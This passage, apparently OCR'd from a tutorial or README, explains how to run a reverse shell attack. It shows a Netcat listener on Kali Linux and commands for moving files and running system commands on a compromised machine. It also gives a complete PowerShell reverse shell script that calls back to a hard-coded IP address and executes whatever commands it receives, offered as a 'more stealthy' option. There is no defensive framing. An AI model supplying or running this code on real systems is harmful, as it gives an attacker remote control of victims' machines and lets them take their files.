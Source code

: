     Error Handling: The script includes error handling for common issues like file reading/writing and network problems.

2. Attacker Side: Netcat Listener on Kali Linux

On the attacker's side, Netcat will be used to listen for incoming connections from the victim machine. Here's how to set up the Netcat listener and interact with the victim.
Start Netcat Listener:

In Kali Linux, open a terminal and run the following command to listen for incoming connections:

nc -lvnp 4444

    -l: Listen mode.

    -v: Verbose mode (shows detailed output).

    -n: Avoid DNS lookups.

    -p 4444: Listen on port 4444 (make sure this matches the port in the victim's Python script).

Once the victim script is running, it will attempt to connect back to the attacker's IP (e.g., 93.172.215.120) and port (4444). When the connection is established, the attacker will see the reverse shell prompt and can issue commands.
Interacting with the Victim:

Once the reverse shell is active, the attacker can run various commands:

    File Upload: To upload a file from the victim to the attacker:

    upload C:\path\to\file.txt

    File Download: To download a file from the attacker to the victim:

    download /path/to/file.txt

    System Commands: To run system commands on the victim:

    ipconfig  # Get network info (Windows)
    dir       # List directories (Windows)
    ls        # List directories (Linux)

3. Alternative Approach: PowerShell Reverse Shell (Windows)

If you are unable to use Python for some reason or want to try a more stealthy method, you can use PowerShell to create a reverse shell on the victim machine.
PowerShell Reverse Shell Script:

This script connects to the attacker's IP address and port, then allows the attacker to send commands to the victim.

$client = New-Object System.Net.Sockets.TCPClient('93.172.215.120', 4444)
$stream = $client.GetStream()
$writer = New-Object System.IO.StreamWriter($stream)
$reader = New-Object System.IO.StreamReader($stream)
$writer.WriteLine("Connection Established")
$writer.Flush()
while ($true) {
    $command = $reader.ReadLine()
    if ($command -eq "exit") {
        break
    }
    $output = Invoke-Expression $command
    $writer.WriteLine($output)
    $writer.Flush()
}
$client.Close()
